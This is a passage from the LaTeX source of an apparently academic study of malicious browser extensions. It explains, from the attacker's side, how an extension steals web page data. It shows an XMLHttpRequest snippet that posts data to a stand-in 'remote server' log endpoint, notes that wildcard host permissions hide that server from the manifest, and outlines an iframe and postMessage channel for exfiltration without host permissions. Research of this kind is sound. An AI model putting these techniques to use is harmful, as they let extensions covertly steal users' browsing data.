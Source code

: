 \subsubsection{Send Data}

If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %

\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
\end{lstlisting}

First, we create a new XHR-object. Then, we open a connection to our remote server with a POST request. We set the correct content type of our request in order that our server is able to decrypt the request's parameter body. And finally, we send our message. \\

For our extensions we decided against using XMLHttpRequests with proper host permissions to transfer the data. It is possible to achieve the same using only a content script without the need for any host permissions. For that purpose, we use the mechanics of an \textit{iframe} element. Its task is to display a web page within a web page. The displayed web page is defined by the URL stored inside the iframe's \textit{src} attribute. If the URL changes, the iframe reloads the web page. The Same Origin Policy creates a boundary between the iframe and it's parent web page. It prevents scripts to access content that has another origin as the script itself. If the web page inside the iframe comes from another domain as the parent web page, the iframe's JavaScript can not access the parent web page. The same applies in reverse. In conclusion, if we manipulate the target URL of an iframe, we are able to send data to our remote server. It may look like we can not receive any data in return because the Same Origin Policy blocks our content script to access the iframe. But we are able to bypass the policy using the \textit{Window.postMessage()} method. It allows us to exchange messages between the iframe and our content script. We implemented a method \texttt{send()} that transfers our data with the described strategy: \\

